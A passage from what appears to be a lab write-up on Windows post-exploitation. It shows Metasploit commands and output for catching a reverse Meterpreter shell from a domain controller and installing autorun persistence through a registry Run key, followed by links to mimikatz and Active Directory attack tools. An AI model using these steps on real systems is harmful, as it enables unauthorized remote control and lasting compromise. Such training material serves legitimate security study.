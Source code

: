 ```bash

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.11.35.147
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.35.147:5555 
```

4) Execute `shell.exe` from Windows machine and go back to your `msfconsole` then background it:

```
[*] Sending stage (175174 bytes) to 10.10.245.132
[*] Meterpreter session 1 opened (10.11.35.147:5555 -> 10.10.245.132:49869) at 2021-06-28 18:45:10 +0200

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```

5) Use the persistence module:

```bash
msf6 exploit(multi/handler) > use exploit/windows/local/persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence) > set session 1
session => 1
msf6 exploit(windows/local/persistence) > run

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\Yukvpk.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu
[*] Clean up Meterpreter RC file: /root/.msf4/logs/persistence/DOMAIN-CONTROLL_20210628.4733/DOMAIN-CONTROLL_20210628.4733.rc
```

___

## Useful links

- [PowerView-3.0-tricks.ps1](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [CONF@42 - Mimikatz - Mémoire Windows](https://youtu.be/quIeOjjRT64)
- [Gentilkiwi - Golden Ticket](https://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)
- [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- <https://blog.harmj0y.net/>
- <https://adsecurity.org/?page_id=1821>
- <https://metasploit.help.rapid7.com/docs/about-post-exploitation>
- <http://www.pentest-standard.org/index.php/Post_Exploitation>
- <https://offsec.red/mimikatz-cheat-sheet/>
